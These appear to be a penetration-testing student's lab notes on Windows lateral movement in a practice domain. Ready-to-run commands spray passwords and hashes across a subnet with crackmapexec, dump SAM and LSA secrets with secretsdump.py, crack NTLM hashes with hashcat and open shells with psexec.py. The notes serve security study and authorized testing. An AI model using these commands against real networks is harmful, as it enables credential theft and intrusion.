 ❗️ *post-compromise = must have credentials already or shell on the machine(s)*

# Pass the hash / Password
*heath does this first when obtaining creds*
If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

## crackmapexec
takes user name, domain, and password >> throws it around subnet >> see where it sticks
```bash
crackmapexec <ip/CIDR> -u <user> -d <domain> -p <pass>

#local, after obtaining local hash
crackmapexec <ip/CIDR> -u <user> -H <hash> --local
```

installing
```bash
apt install crackmapexec
crackmapexec #run
```

#### Pass the Password Attacks
```bash
crackmapexec --help #use and options
crackmapexec smb <IP>/24 -u fcastle -d MARVEL.local -p Password1 #anything Pwn3d! = acess 

# can try --sam to dump SAM hashes from Pwn3d
crackmapexec smb <IP>/24 -u fcastle -d MARVEL.local -p Password1 --sam
#can use secretsdump.py to get hashes


#can try psexec to get shell
psexec.py marvel/fcastle:Password@192.168.57.142
```

#### Dumping hashes with secretsdump.py
```bash
secretsdump.py marvel/fcastle:Password@192.168.57.142 #dump SAM hashes and LSA secrets (can use for mimikatz)

#copy and paste to txt twice >> compare to see if password reuse is in place
```

#### Cracking NTLM hashes with Hashcat
move hashes to hashcat folder
❗️ ntml hashes can be passed, ntlm v2 CAN NOT
```powershell
hashcat64.exe -m 1000 hashes4.txt rockyou.txt -o
```

#### Pass the Hash attacks
```bash
crackmapexec smb <IP>/24 -u fcastle -H <hash> --local-auth #any green or pwn3d = access

#can try psexec to get shell
psexec.py "frank castle":Password@192.168.57.141 -hashes <hash>
```
